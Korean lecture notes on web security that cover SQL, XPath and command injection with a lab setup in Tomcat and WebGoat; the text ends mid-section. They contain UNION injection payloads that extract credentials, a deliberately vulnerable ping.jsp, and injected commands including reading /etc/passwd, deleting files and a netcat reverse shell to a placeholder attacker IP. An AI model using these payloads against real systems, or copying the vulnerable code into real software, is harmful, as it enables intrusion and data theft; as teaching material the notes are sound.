




# Section 1: 서론 및 강의 개요

## 1.1 강의 소개

오늘 강의에서는 웹 애플리케이션 보안의 핵심 취약점들을 심층적으로 학습하고, 실제 소스 코드 분석을 통해 보안 취약점을 식별하는 방법을 배웠다. 오전과 오후 세션을 통해 SQL Injection 복습부터 XSS(Cross-Site Scripting), CSRF, SSRF까지 웹 보안의 주요 공격 기법들을 다루었으며, WebGoat 실습 환경에서 직접 취약점을 확인하고 익명 게시판을 구현하는 실무 중심 학습을 진행했다.

### 1.1.1 학습 목표

이번 강의를 통해 달성하고자 하는 핵심 학습 목표는 다음과 같다:

1. **웹 애플리케이션 취약점 이해**
   - SQL Injection, Command Injection, XSS, CSRF, SSRF 등 주요 공격 기법의 원리 파악
   - OWASP Top 10 취약점의 실제 발생 사례 및 위험성 이해
   - 공격자 관점에서 취약점을 발견하고 악용하는 과정 학습

2. **소스 코드 보안 분석 역량 배양**
   - JSP/Java 기반 웹 애플리케이션 소스 코드 읽기 및 분석
   - 취약한 코드 패턴 식별 및 보안 검증 미비 사항 발견
   - grep, find 등 리눅스 명령어를 활용한 자동화된 취약점 탐지

3. **실무 보안 개발 가이드 적용**
   - 행정안전부 소프트웨어 개발보안 가이드 이해
   - 입력값 검증, 세션 관리, 암호화 등 보안 개발 원칙 적용
   - 화이트박스/블랙박스 테스팅 방법론 습득

4. **실습 환경 구축 및 활용**
   - WebGoat 보안 학습 플랫폼 활용
   - Tomcat WAS 환경에서 JSP 애플리케이션 배포 및 테스트
   - MariaDB 데이터베이스 연동 및 SQL 쿼리 작성

### 1.1.2 강의 구성 개요

| 세션 | 주요 내용 | 실습 항목 |
|------|----------|----------|
| **오전** | SQL Injection 복습, Command Injection 기초, Cookie 개념 | ping.jsp 구현, Tomcat 10 보안 이슈 확인 |
| **오후** | XSS 심화, CSRF/SSRF, 소스 코드 보안 분석 | 익명 게시판 구현, WebGoat 실습, 취약점 분석 |

## 1.2 학습 환경 준비

### 1.2.1 필수 소프트웨어 및 버전

강의 실습을 위해 다음과 같은 개발 환경이 구성되어 있어야 한다:

```bash
# 운영체제
- Linux (CentOS/Ubuntu) 또는 macOS
- Windows에서는 WSL2 권장

# 웹 애플리케이션 서버 (WAS)
- Apache Tomcat 9.x 또는 10.x
  * Tomcat 10은 보안 강화로 일부 시스템 명령 실행 제한
  * ping 명령어 등 Runtime.getRuntime().exec() 관련 이슈 존재

# 데이터베이스
- MariaDB 10.x 또는 MySQL 8.x
  * 계정: mydb / abcd1234 (실습용)
  * 데이터베이스: clouddb

# 개발 도구
- JDK 11 이상 (Java Development Kit)
- Vi/Vim 또는 선호하는 텍스트 에디터
- DeepSeek AI (코드 생성 보조 도구)

# 보안 학습 도구
- WebGoat 7.1 (OWASP 보안 학습 플랫폼)
- Burp Suite (웹 프록시 및 보안 테스팅 도구)
- Wireshark/tcpdump (패킷 분석 도구)
```

### 1.2.2 데이터베이스 초기 설정

MariaDB 데이터베이스 설정 및 테이블 생성:

```sql
-- 데이터베이스 생성
CREATE DATABASE IF NOT EXISTS clouddb;
USE clouddb;

-- 사용자 테이블 (로그인 기능용)
CREATE TABLE IF NOT EXISTS user_info (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(255) NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- 관리자 테이블
CREATE TABLE IF NOT EXISTS admin_info (
    id INT AUTO_INCREMENT PRIMARY KEY,
    admin_name VARCHAR(50) NOT NULL,
    admin_password VARCHAR(255) NOT NULL,
    role VARCHAR(20) DEFAULT 'admin'
);

-- 게시판 테이블 (XSS 실습용)
CREATE TABLE IF NOT EXISTS board (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100),
    title VARCHAR(255),
    content TEXT,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- 데이터베이스 계정 확인
SHOW DATABASES;
SHOW TABLES;
```

**데이터베이스 접속 명령어:**

```bash
# 로컬 접속
mysql -u mydb -p
# 패스워드: abcd1234

# 원격 접속
mysql -h 192.168.186.130 -u mydb -p
# IP 주소는 환경에 따라 변경

# 명령어 히스토리 재사용
!mysql  # 마지막 mysql 명령 재실행
```

### 1.2.3 Tomcat 서버 설정

**Tomcat 시작/중지:**

```bash
# Tomcat 시작
systemctl start tomcat9
# 또는
/opt/tomcat/bin/startup.sh

# Tomcat 중지
systemctl stop tomcat9
# 또는
/opt/tomcat/bin/shutdown.sh

# Tomcat 상태 확인
systemctl status tomcat9
ps -ef | grep tomcat
```

**JSP 파일 배포 경로:**

```bash
# Tomcat webapps 디렉터리
/opt/tomcat/webapps/ROOT/

# JSP 파일 작성 예시
vi /opt/tomcat/webapps/ROOT/index.jsp
vi /opt/tomcat/webapps/ROOT/ping.jsp
vi /opt/tomcat/webapps/ROOT/login.jsp
```

**접속 URL 형식:**

```
http://[서버IP]:8080/파일명.jsp
예: http://192.168.186.128:8080/index.jsp
```

## 1.3 웹 보안 기초 개념

### 1.3.1 3-Tier 아키텍처

웹 애플리케이션은 일반적으로 3계층 구조로 설계된다:



**각 계층의 역할:**

1. **Presentation Layer (Web Server)**
   - 사용자 인터페이스 제공 (HTML, CSS, JavaScript)
   - HTTP 요청/응답 처리
   - 정적 컨텐츠 서빙

2. **Application Layer (WAS - Web Application Server)**
   - 비즈니스 로직 수행 (JSP, Servlet, Java)
   - 동적 컨텐츠 생성
   - 세션 관리 및 인증/인가 처리
   - 예: Tomcat, JBoss, WebLogic

3. **Data Layer (Database)**
   - 데이터 영구 저장 및 관리
   - SQL 쿼리 처리
   - 트랜잭션 관리
   - 예: MariaDB, MySQL, Oracle, PostgreSQL

### 1.3.2 MVC 패턴

MVC(Model-View-Controller)는 웹 애플리케이션 개발의 표준 디자인 패턴이다:



**보안 관점에서의 MVC:**

- **Controller**: 입력값 검증이 가장 중요한 계층
  - 모든 사용자 입력은 Controller에서 필터링되어야 함
  - XSS, SQL Injection 방어의 첫 번째 방어선

- **Model**: 데이터베이스 쿼리 보안
  - Prepared Statement 사용 필수
  - SQL Injection 방어

- **View**: 출력 인코딩
  - HTML 특수문자 이스케이프
  - XSS 방어의 마지막 방어선

**현대 프레임워크의 보안 기능:**

Spring, Django, Ruby on Rails 등 현대 프레임워크는 기본적으로 많은 보안 기능을 제공한다:
- 자동 CSRF 토큰 생성
- SQL Injection 방어 (ORM 사용)
- XSS 필터링
- 세션 관리 자동화

그러나 **개발자의 실수로 인한 취약점**은 여전히 발생한다:
- 설마 이런 입력을 하겠어? → 항상 발생함
- 시간이 없어서 검증 로직 생략 → 취약점의 주요 원인
- 프레임워크를 맹신하고 보안 검증 생략 → 위험

### 1.3.3 OWASP Top 10 취약점 개요

OWASP(Open Web Application Security Project)는 웹 애플리케이션의 10대 보안 취약점을 매년 발표한다.

**OWASP Top 10 (2021 기준):**

| 순위 | 취약점 | 설명 | 본 강의 커버 여부 |
|------|--------|------|------------------|
| A01 | Broken Access Control | 권한 관리 오류 | ⭕ (강제 브라우징) |
| A02 | Cryptographic Failures | 암호화 실패 | ⭕ (평문 전송) |
| A03 | Injection | SQL/Command Injection | ✅ **핵심** |
| A04 | Insecure Design | 안전하지 않은 설계 | ⭕ (아키텍처) |
| A05 | Security Misconfiguration | 보안 설정 오류 | ⭕ (Tomcat 설정) |
| A06 | Vulnerable Components | 취약한 컴포넌트 사용 | ⭕ (라이브러리) |
| A07 | Identification Failures | 인증 실패 | ✅ **핵심** (세션) |
| A08 | Software Integrity Failures | 무결성 실패 | ⭕ |
| A09 | Security Logging Failures | 로깅 실패 | - |
| A10 | Server-Side Request Forgery | SSRF | ✅ **핵심** |

### 1.3.4 한국 행정안전부 보안 가이드

행정안전부에서는 소프트웨어 개발보안 가이드를 제공하며, OWASP Top 10과 유사한 구조를 가진다.

**7대 보안 취약점 유형 (2021 기준):**

1. **입력 데이터 검증 및 표현**
   - SQL Injection (OWASP A03)
   - XSS (Cross-Site Scripting)
   - 위험한 형식 파일 업로드
   - 경로 조작 (Path Traversal)

2. **보안 기능**
   - 암호화 (OWASP A02)
   - 인증 및 권한 관리 (OWASP A01, A07)
   - 접근 제어

3. **시간 및 상태**
   - 경쟁 조건 (Race Condition)
   - 무한 루프

4. **에러 처리**
   - 오류 메시지 노출
   - 예외 처리 미흡

5. **코드 오류**
   - Null Pointer 역참조
   - 자원 반환 누락

6. **캡슐화**
   - 잘못된 세션 관리
   - 중요 정보 평문 저장

7. **API 오용**
   - 취약한 API 사용
   - DNS Lookup 검증 누락

## 1.4 강의 진행 방식

### 1.4.1 학습 방법론

**이론 → 실습 → 분석 → 방어**의 4단계 학습 순서:

1. **이론 학습**: 취약점의 원리와 공격 메커니즘 이해
2. **실습**: WebGoat 또는 직접 구현한 환경에서 취약점 재현
3. **소스 코드 분석**: 실제 코드에서 취약점 발생 원인 파악
4. **방어 기법 적용**: 안전한 코드 작성 및 보안 검증

### 1.4.2 실습 환경 활용

**WebGoat 7.1 사용:**

```bash
# WebGoat 실행 (jar 파일 방식)
java -jar webgoat-container-7.1-exec.jar

# 접속 URL
http://localhost:8080/WebGoat

# 기본 계정
ID: guest / PW: guest
ID: webgoat / PW: webgoat
```

**WebGoat 소스 코드 확인:**

GitHub에서 WebGoat Lessons 프로젝트를 다운로드하여 취약한 코드를 직접 분석할 수 있다:

```bash
# GitHub 저장소
https://github.com/WebGoat/WebGoat-Lessons

# 주요 분석 파일 경로 예시
WebGoat-Lessons/sql-injection/src/main/java/org/owasp/webgoat/plugin/
  └── LoginSQLInjection.java

WebGoat-Lessons/xss/src/main/java/org/owasp/webgoat/plugin/
  └── StoredXSS.java
```

### 1.4.3 DeepSeek AI 활용

강의에서는 DeepSeek AI를 코드 생성 보조 도구로 활용했다:

**활용 예시:**

```
프롬프트: "JSP로 XSS 공격이 가능한 익명 게시판을 만들어라.
게시판은 글쓰기, 목록, 읽기 기능을 제공한다.
글쓰기는 이름, 제목, 내용이 들어가고,
코드를 최대한 간단하게 작성하시오.
타이틀 등은 생략하시오.
데이터베이스는 192.168.186.130의 mydb 계정을 사용하는 MariaDB입니다."
```

**주의사항:**
- AI가 생성한 코드는 **보안 검증 없이** 만들어지므로 취약점 학습에 적합
- 너무 복잡하게 코드를 생성하는 경향이 있어 "최대한 간단하게" 요청 필요
- 생성된 코드를 그대로 사용하지 말고, 보안 관점에서 분석하고 개선해야 함

## 1.5 선수 지식 및 용어 정리

### 1.5.1 필수 선수 지식

- **HTTP 프로토콜 기초**: GET/POST 메서드, 헤더, 쿠키
- **HTML/JavaScript 기초**: 태그 구조, 이벤트 핸들러, DOM
- **SQL 기본 문법**: SELECT, INSERT, UPDATE, DELETE, UNION
- **Linux 기본 명령어**: ls, cd, cat, grep, vi, chmod
- **Java/JSP 기초**: 변수, 조건문, 반복문, 함수(메서드)

### 1.5.2 핵심 용어 정리

**일반 웹 용어:**

- **WAS (Web Application Server)**: 동적 컨텐츠를 생성하는 애플리케이션 서버 (예: Tomcat)
- **세션 (Session)**: 서버가 클라이언트 상태를 유지하기 위한 메커니즘
- **쿠키 (Cookie)**: 클라이언트(브라우저)에 저장되는 작은 텍스트 파일
- **프레임워크 (Framework)**: 애플리케이션 개발을 위한 구조화된 플랫폼 (예: Spring, Django)

**보안 용어:**

- **취약점 (Vulnerability)**: 시스템의 약점으로 공격자가 악용할 수 있는 결함
- **익스플로잇 (Exploit)**: 취약점을 실제로 공격하는 코드 또는 기법
- **페이로드 (Payload)**: 공격 시 전달되는 악의적인 데이터 또는 코드
- **화이트박스 테스팅 (White-box Testing)**: 소스 코드를 볼 수 있는 상태에서 수행하는 보안 테스트
- **블랙박스 테스팅 (Black-box Testing)**: 소스 코드 없이 외부에서 수행하는 보안 테스트

**공격 관련 용어:**

- **인젝션 (Injection)**: 악의적인 코드를 삽입하여 시스템을 조작하는 공격
- **세션 하이재킹 (Session Hijacking)**: 다른 사용자의 세션을 탈취하는 공격
- **스니핑 (Sniffing)**: 네트워크 패킷을 도청하는 행위
- **프록시 (Proxy)**: 클라이언트와 서버 사이에서 요청/응답을 중계하는 서버

## 1.6 학습 목표 달성 체크리스트

이번 강의를 통해 다음 항목들을 달성해야 한다:

- [ ] SQL Injection의 원리를 설명할 수 있다
- [ ] UNION 기반 SQL Injection 공격을 수행할 수 있다
- [ ] Command Injection 취약점을 이해하고 실습할 수 있다
- [ ] Runtime.getRuntime().exec()의 보안 위험성을 설명할 수 있다
- [ ] 쿠키와 세션의 차이점을 이해하고 보안 위험성을 설명할 수 있다
- [ ] Stored XSS와 Reflected XSS의 차이를 설명할 수 있다
- [ ] XSS 공격 페이로드를 작성하고 테스트할 수 있다
- [ ] CSRF와 SSRF의 개념을 이해하고 공격 시나리오를 설명할 수 있다
- [ ] JSP 소스 코드에서 취약점을 식별할 수 있다
- [ ] grep 명령어로 위험한 함수(exec, SELECT 등)를 검색할 수 있다
- [ ] 익명 게시판을 JSP로 구현할 수 있다
- [ ] 행정안전부 보안 개발 가이드의 주요 내용을 이해한다
- [ ] 파일 업로드 취약점과 경로 조작 공격을 이해한다
- [ ] WebGoat에서 SQL Injection 및 XSS 문제를 해결할 수 있다

---

**다음 섹션 예고:**

Section 2에서는 SQL Injection 복습과 Command Injection의 기초 개념을 다룬다. MariaDB와 SQLite의 차이점, SQL 기본 명령어(CREATE, INSERT, SELECT, UPDATE, DELETE, UNION) 복습, 그리고 ping.jsp를 통한 Command Injection 실습을 진행할 예정이다.
# Section 2: SQL Injection 복습 및 Command Injection 기초

## 2.1 SQL Injection 복습

### 2.1.1 SQL Injection이란?

SQL Injection은 웹 애플리케이션이 사용자 입력값을 적절히 검증하지 않고 SQL 쿼리에 직접 삽입할 때 발생하는 취약점이다. 공격자는 악의적인 SQL 코드를 주입하여 데이터베이스를 조작하거나 민감한 정보를 탈취할 수 있다.

**발생 원인:**
- 사용자 입력값에 대한 필터링 부재
- SQL 쿼리 문자열 직접 결합 (String Concatenation)
- Prepared Statement 미사용

**공격 영향:**
- 데이터베이스 정보 유출 (사용자 정보, 개인정보)
- 인증 우회 (로그인 bypass)
- 데이터 변조 및 삭제
- 시스템 권한 탈취 (DBA 권한 획득 시)

### 2.1.2 MariaDB vs SQLite 비교

강의에서는 MariaDB와 SQLite의 차이점을 비교했다:

| 특성 | MariaDB | SQLite |
|------|---------|--------|
| **타입** | 서버 기반 DBMS | 파일 기반 DBMS |
| **설치** | 별도 서버 프로세스 필요 | 라이브러리 형태로 임베디드 |
| **네트워크** | TCP/IP 통신 가능 | 로컬 파일만 접근 |
| **동시 접속** | 다중 사용자 지원 | 제한적 (단일 Writer) |
| **크기** | 대규모 데이터 처리 | 소규모 애플리케이션 |
| **사용 사례** | 웹 서버, 기업용 시스템 | 모바일 앱, 임베디드 시스템 |

**접속 방법 비교:**

```bash
# MariaDB 접속
mysql -h [IP주소] -u mydb -p
# 예: mysql -h 192.168.186.130 -u mydb -p
# 패스워드: abcd1234

# SQLite 접속
sqlite3 database.db
```

### 2.1.3 SQL 기본 명령어 복습

#### DDL (Data Definition Language) - 데이터 정의어

**CREATE TABLE - 테이블 생성:**

```sql
-- 기본 문법
CREATE TABLE table_name (
    column1 datatype constraints,
    column2 datatype constraints,
    ...
);

-- 실습 예제: 사용자 테이블 생성
CREATE TABLE user_info (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(100),
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- 관리자 테이블 생성
CREATE TABLE admin_info (
    id INT AUTO_INCREMENT PRIMARY KEY,
    admin_name VARCHAR(50) NOT NULL,
    admin_password VARCHAR(255) NOT NULL,
    role VARCHAR(20) DEFAULT 'admin',
    last_login TIMESTAMP
);
```

**주요 데이터 타입:**
- `INT`: 정수형 (4 bytes)
- `VARCHAR(n)`: 가변 길이 문자열 (최대 n 글자)
- `TEXT`: 긴 문자열 (65,535 bytes까지)
- `TIMESTAMP`: 날짜와 시간
- `AUTO_INCREMENT`: 자동 증가 값 (Primary Key에 주로 사용)

#### DML (Data Manipulation Language) - 데이터 조작어

**INSERT - 데이터 삽입:**

```sql
-- 기본 문법
INSERT INTO table_name (column1, column2, ...)
VALUES (value1, value2, ...);

-- 실습 예제
INSERT INTO user_info (username, password, email)
VALUES ('admin', 'password123', 'admin@example.com');

INSERT INTO user_info (username, password, email)
VALUES ('user1', 'pass1234', 'user1@example.com');

-- 여러 행 동시 삽입
INSERT INTO user_info (username, password, email) VALUES
('user2', 'pass2', 'user2@example.com'),
('user3', 'pass3', 'user3@example.com'),
('user4', 'pass4', 'user4@example.com');
```

**SELECT - 데이터 조회:**

```sql
-- 모든 컬럼 조회
SELECT * FROM user_info;

-- 특정 컬럼만 조회
SELECT username, email FROM user_info;

-- 조건부 조회 (WHERE 절)
SELECT * FROM user_info WHERE username = 'admin';

-- 정렬 (ORDER BY)
SELECT * FROM user_info ORDER BY created_at DESC;

-- 개수 제한 (LIMIT)
SELECT * FROM user_info LIMIT 5;
```

**UPDATE - 데이터 수정:**

```sql
-- 기본 문법
UPDATE table_name
SET column1 = value1, column2 = value2, ...
WHERE condition;

-- 실습 예제
UPDATE user_info
SET password = 'newpassword'
WHERE username = 'admin';

-- 여러 컬럼 동시 수정
UPDATE user_info
SET password = 'updated', email = 'newemail@example.com'
WHERE id = 1;
```

**⚠️ 주의사항:** WHERE 절을 생략하면 모든 행이 수정되므로 매우 위험하다!

**DELETE - 데이터 삭제:**

```sql
-- 기본 문법
DELETE FROM table_name WHERE condition;

-- 실습 예제
DELETE FROM user_info WHERE username = 'user1';

-- 모든 데이터 삭제 (위험!)
DELETE FROM user_info;  -- WHERE 절 없음 = 전체 삭제
```

### 2.1.4 UNION 기반 SQL Injection

UNION 구문은 여러 SELECT 쿼리의 결과를 결합하는 데 사용되며, SQL Injection 공격에서 가장 많이 활용되는 기법 중 하나다.

**UNION 기본 문법:**

```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2;
```

**UNION 사용 조건:**
1. 두 SELECT 문의 컬럼 개수가 동일해야 함
2. 대응하는 컬럼의 데이터 타입이 호환 가능해야 함

**UNION Injection 공격 시나리오:**

정상적인 로그인 쿼리:
```sql
SELECT * FROM user_info
WHERE username = 'admin' AND password = 'password123';
```

공격자가 username 필드에 다음을 입력:
```
admin' UNION SELECT 1,2,3,4,5 --
```

실제 실행되는 쿼리:
```sql
SELECT * FROM user_info
WHERE username = 'admin' UNION SELECT 1,2,3,4,5 --' AND password = 'password123';
```

**공격 단계:**

**1단계: 컬럼 개수 파악**

```sql
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT NULL, NULL, NULL, NULL --
' UNION SELECT NULL, NULL, NULL, NULL, NULL --
```

에러가 발생하지 않으면 컬럼 개수가 일치한다는 의미

**2단계: 데이터 타입 확인**

```sql
' UNION SELECT 'a', NULL, NULL, NULL, NULL --
' UNION SELECT NULL, 'a', NULL, NULL, NULL --
' UNION SELECT NULL, NULL, 'a', NULL, NULL --
```

**3단계: 데이터베이스 정보 수집**

```sql
-- 데이터베이스 버전 확인
' UNION SELECT @@version, NULL, NULL, NULL, NULL --

-- 현재 사용자 확인
' UNION SELECT USER(), NULL, NULL, NULL, NULL --

-- 데이터베이스명 확인
' UNION SELECT DATABASE(), NULL, NULL, NULL, NULL --

-- 테이블 목록 조회
' UNION SELECT table_name, NULL, NULL, NULL, NULL
FROM information_schema.tables
WHERE table_schema = DATABASE() --

-- 컬럼 목록 조회
' UNION SELECT column_name, NULL, NULL, NULL, NULL
FROM information_schema.columns
WHERE table_name = 'user_info' --
```

**4단계: 민감 데이터 탈취**

```sql
-- 사용자 정보 추출
' UNION SELECT username, password, email, NULL, NULL
FROM user_info --

-- 관리자 정보 추출
' UNION SELECT admin_name, admin_password, NULL, NULL, NULL
FROM admin_info --
```

### 2.1.5 XPath Injection

XPath Injection은 XML 데이터를 조회할 때 발생하는 취약점이다. SQL Injection과 유사한 원리로 작동한다.

**XPath 기본 개념:**

XPath는 XML 문서에서 노드를 선택하는 쿼리 언어다.

```xml
<!-- users.xml -->
<users>
    <user>
        <username>admin</username>
        <password>admin123</password>
        <role>administrator</role>
    </user>
    <user>
        <username>guest</username>
        <password>guest123</password>
        <role>user</role>
    </user>
</users>
```

**정상적인 XPath 쿼리:**

```xpath
//user[username='admin' and password='admin123']
```

**XPath Injection 공격:**

사용자 입력: `admin' or '1'='1`

실제 실행되는 쿼리:
```xpath
//user[username='admin' or '1'='1' and password='admin123']
```

결과: 모든 사용자 노드가 선택됨 (조건이 항상 참)

## 2.2 Command Injection 기초

### 2.2.1 Command Injection이란?

Command Injection은 웹 애플리케이션이 사용자 입력을 시스템 명령어에 포함시켜 실행할 때 발생하는 취약점이다. 공격자는 악의적인 시스템 명령을 주입하여 서버를 제어하거나 정보를 탈취할 수 있다.

**발생 원인:**
- 사용자 입력값을 시스템 명령어에 직접 사용
- `Runtime.getRuntime().exec()`, `system()`, `popen()` 등 위험한 함수 사용
- 입력값에 대한 특수문자 필터링 부재

**위험한 특수문자:**
- `;` (세미콜론): 명령어 구분자
- `|` (파이프): 명령어 연결
- `&` `&&`: 명령어 연속 실행
- `$()` `` ` ` ``: 명령어 치환
- `>` `>>`: 리다이렉션

### 2.2.2 ping.jsp 구현 - 취약한 예제

**취약한 ping.jsp 코드:**

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>
<html>
<head>
    <title>Ping Tool</title>
</head>
<body>
    <h2>Ping Command Tool</h2>
    <form method="POST">
        IP Address: <input type="text" name="ip" />
        <input type="submit" value="Ping" />
    </form>

<%
    String ip = request.getParameter("ip");
    if (ip != null && !ip.isEmpty()) {
        // ⚠️ 취약점: 사용자 입력을 직접 명령어에 포함
        String command = "ping -c 5 " + ip;

        try {
            // Runtime.getRuntime().exec()로 명령어 실행
            Process process = Runtime.getRuntime().exec(command);

            // 명령어 실행 결과 읽기
            java.io.BufferedReader reader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream())
            );

            out.println("<h3>Ping Results:</h3>");
            out.println("<pre>");

            String line;
            while ((line = reader.readLine()) != null) {
                out.println(line);
            }

            out.println("</pre>");
            reader.close();

        } catch (Exception e) {
            out.println("<p style='color:red;'>Error: " + e.getMessage() + "</p>");
        }
    }
%>
</body>
</html>
```

**정상적인 사용:**

입력: `192.168.1.1`

실행되는 명령어:
```bash
ping -c 5 192.168.1.1
```

**Command Injection 공격:**

입력: `192.168.1.1; ls -la`

실행되는 명령어:
```bash
ping -c 5 192.168.1.1; ls -la
```

결과: ping 명령 실행 후 현재 디렉터리의 파일 목록이 출력됨

**더 위험한 공격 예제:**

```bash
# 시스템 정보 확인
192.168.1.1; uname -a

# 패스워드 파일 읽기
192.168.1.1; cat /etc/passwd

# 현재 사용자 확인
192.168.1.1; whoami

# 파일 삭제 (매우 위험!)
192.168.1.1; rm -rf /tmp/*

# 리버스 쉘 연결
192.168.1.1; nc -e /bin/bash 공격자IP 4444
```

### 2.2.3 Tomcat 10 보안 이슈

강의에서 중요하게 다룬 내용으로, Tomcat 10에서는 보안이 강화되어 `Runtime.getRuntime().exec()`를 사용한 일부 시스템 명령이 제한된다.

**Tomcat 9 vs Tomcat 10 비교:**

| 항목 | Tomcat 9 | Tomcat 10 |
|------|----------|-----------|
| Runtime.exec() | 대부분 명령 실행 가능 | 일부 명령 실행 제한 |
| ping 명령어 | ✅ 정상 작동 | ❌ 실행 불가 또는 오류 |
| 보안 정책 | 느슨함 | 강화됨 |
| SecurityManager | 선택적 | 더 엄격 |

**Tomcat 10에서 ping 명령 실행 시 발생하는 문제:**

```
Error: Cannot run program "ping -c 5 192.168.1.1": error=2, No such file or directory
```

**원인 분석:**

